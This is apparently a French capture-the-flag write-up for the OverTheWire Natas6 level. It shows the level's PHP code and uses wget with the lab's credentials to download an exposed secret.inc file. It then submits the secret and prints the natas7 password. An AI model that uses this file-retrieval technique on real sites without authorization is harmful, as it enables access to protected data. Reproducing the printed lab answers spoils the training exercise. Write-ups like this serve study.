 ## Over-The-Wire -writeup-
### Natas6 (http://natas6.natas.labs.overthewire.org/)

---
#### Etape 1

Un code est demandé, et on a accès à la source de la page index.html et de son box input.  
Dans le code HTML **on trouve une section PHP**:

```php
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>
```

Le fichiers "secret.inc" est inclus dans la page HTML, et ensuite PHP compare ce que l'utilisateur entre comme code ($_POST['secret']) et le code secret du serveur (variable $secret, dont la valeur se trouve dans secret.inc)  

On va donc récupérer le fichier secret.inc qui se trouve dans le dossier /includes/ du site.

Pour cela j'utilise **wget** :

Structure de la commande pour récupérer un fichier: `wget http://target-address/file`  
Structure de la commande pour se connecter avec des identifiants: `wget --user [username] --password [password]`

**Fusionnons les deux**:  
`wget -user [username] --password [password] http://target-address/file`

**Enfin, dans notre cas, la commande exacte est**:  
`wget --user natas6 --password aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1 http://natas6.natas.labs.overthewire.org/includes/secret.inc`

---
#### Etape 2

Une fois le fichier secret.inc récupéré, cat-ons le:
```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```
Le code a rentrer dans le box d'input est donc **FOEIUWGHFEEUHOFUOIU**, qui se comparera à lui-même, sera donc égal à lui-même et satisfiera la condition pour dévoiler la balise "*censored*".

Une fois le code rentré et le bouton "Sumbit Query" cliqué, un texte apparaît:
> Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

---
Mot de passe: **7z3hEENjQtflzgnT29q7wAvMNfZdh0i9**
